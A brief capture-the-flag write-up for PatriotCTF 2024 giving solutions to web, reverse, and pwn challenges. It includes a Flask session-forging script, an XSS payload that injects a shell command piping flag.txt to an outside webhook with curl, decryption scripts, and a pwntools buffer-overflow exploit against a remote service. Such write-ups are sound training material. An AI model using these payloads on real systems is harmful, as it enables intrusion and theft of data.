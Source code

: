 ```yaml
---
title: "PatriotCTF shortWU"
date: 2024-09-21
draft: false
tags : ["write-up", "PatriotCTF"]
description: "PatriotCTF shortWU"
---
```


## Web
### giraffe notes
The code ban HTTP-X-Forwarded-For header, but we can use X-Forwarded-Host header to bypass it.

### Impersonate

First, I get `server_start_time` by get the respone from /status page. Then, I use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to generate a cookie with `is_admin` set to `True` and `username` set to `administrator`. Then, I send a request to the admin page with this cookie to get the flag.


Code exploit: 
```python
import os, requests
from datetime import datetime, timedelta
import hashlib
import subprocess
res = requests.get('http://chal.competitivecyber.club:9999/status')
server_up_time_str = res.content.split(b'Server uptime: ')[1].split(b'<br>')[0].decode()
server_time_str = res.content.split(b'Server time: ')[1].decode()
uptime_parts = server_up_time_str.split(':')
server_up_time = timedelta(hours=int(uptime_parts[0]), minutes=int(uptime_parts[1]), seconds=int(uptime_parts[2]))
server_time = datetime.strptime(server_time_str.strip(), '%Y-%m-%d %H:%M:%S')
server_start_time = server_time - server_up_time

print("Server start time:", server_start_time)
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', "{'is_admin': True, 'username': 'administrator'}", '--secret', secure_key])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://chal.competitivecyber.club:9999/admin', cookies=cookie)

print(response.text)
```


### Open Seasame

![alt text](image.png)
The server has a XSS vulnerability in `/api/stats/<id>` because the Content-Type header is not set, so the browser will render the response as HTML. I inject script to  `username` params and create id with this username on `/api/stats` page. After getting that id, send this url to bot. The bot will visit this url and execute the script.

Injected script:
```javascript
<script>fetch('/api/cal?modifier=;curl https://webhook.site/8f530448-4e2b-4697-909b-9b9a9721c8c0?$(cat flag.txt)')</script>
```

## Reverse

### Revioli
```python
from base64 import b64decode, b64encode
import secrets

flipFlops = lambda x: chr(ord(x) - 1)
s="Mwahahaha you will nOcmu{9gtufever crack into my passMmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ympword, i'll even give you the key and the executable:::: Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV"


fourth = "Ocmu{9gtuf"+ "MmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ymp"
bittysEnc = "Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV"

bittys = b64decode(bittysEnc)

third = ""
for each in fourth:
    third += flipFlops(each)

second = b64decode(third)
onePointFive = int.from_bytes(second, "big")
first = onePointFive ^ int.from_bytes(bittys, "big")
print(first.to_bytes(len(second), "big"))

```

### Packed Full Of Surprises
First, using `upx` to unpack. The unpacked code is AES-EFB encryption.
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import struct

def decrypt_file(input_file, output_file, key, iv):
    # Create AES cipher object in CFB mode
    cipher = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=128)
    
    with open(input_file, 'rb') as infile, open(output_file, 'wb') as outfile:
        while True:
            chunk = infile.read(16)  # Read in 16-byte chunks
            if len(chunk) == 0:
                break
            decrypted_chunk = cipher.decrypt(chunk)
            outfile.write(decrypted_chunk)

# Key and IV from the C code
key = struct.pack('<QQQQ', 0xEFCDAB8967452301, 0xFEDCBA9876543210, 0x8796A5B4C3D2E1F0, 0xF1E2D3C4B5A6978)
iv = struct.pack('<QQ', 0x706050403020100, 0xF0E0D0C0B0A0908)

# Decrypt the file
decrypt_file('flag.txt.enc', 'flag_decrypted.txt', key, iv)

print("Decryption complete. Check 'flag_decrypted.txt' for the result.")
```

## Pwn
### Not So Shrimple Is It 
```python
from pwn import *
from pwn import p64
r = remote('chal.competitivecyber.club',8884)
# r = process('./shrimple')
r.sendline(b'a'*43+b'\0')
r.sendline(b'o'*42+b'\0')

r.sendline(b'a'*38+b'\x82\x12\x40\0')
r.interactive()

```

